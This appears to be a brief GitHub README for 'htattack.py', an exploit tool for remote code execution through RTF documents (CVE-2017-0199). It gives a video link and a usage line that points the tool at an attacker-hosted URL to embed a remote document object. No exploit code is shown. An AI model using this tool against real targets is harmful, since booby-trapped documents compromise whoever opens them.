 # htattack.py
An exploit implementation for RCE in RTF docs (CVE-2017-0199).

### Video:
    https://www.youtube.com/watch?v=0lDvclMrymM

### Usage:

    # python htattack.py -u <http://[attacker-url]/document.doc> (this has to be the document object embedded in the RTF)
